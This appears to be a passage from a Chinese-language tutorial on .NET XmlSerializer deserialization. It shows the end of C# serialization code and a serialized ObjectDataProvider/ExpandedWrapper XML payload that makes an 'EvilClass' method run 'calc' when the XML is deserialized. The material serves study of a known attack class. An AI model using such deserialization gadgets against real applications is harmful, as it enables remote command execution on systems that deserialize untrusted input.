 ```C#
            Console.WriteLine(Encoding.UTF8.GetString(memoryStream.ToArray()));
        }
    }
}
```

![image-20240328142430050](images/7.png)

是可以正常序列化的

```
<?xml version="1.0" encoding="utf-8"?>                                                                                                           
<ExpandedWrapperOfEvilClassObjectDataProvider xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema">
  <ProjectedProperty0>                                                                                                                           
    <ObjectInstance xsi:type="EvilClass" />                                                                                                      
    <MethodName>evil</MethodName>                  
    <MethodParameters>                             
      <anyType xsi:type="xsd:string">calc</anyType>
    </MethodParameters>                            
  </ProjectedProperty0>                            
</ExpandedWrapperOfEvilClassObjectDataProvider>  
```

配合上反序列化，一共会弹出两次计算器，可以将断点断在Deserialize，关闭后查看效果

至于为什么反序列化的过程中会触发ObjectDataProvider，可以参考https://www.cnblogs.com/zpchcbd/p/17180208.html#/

## ResourceDictionary
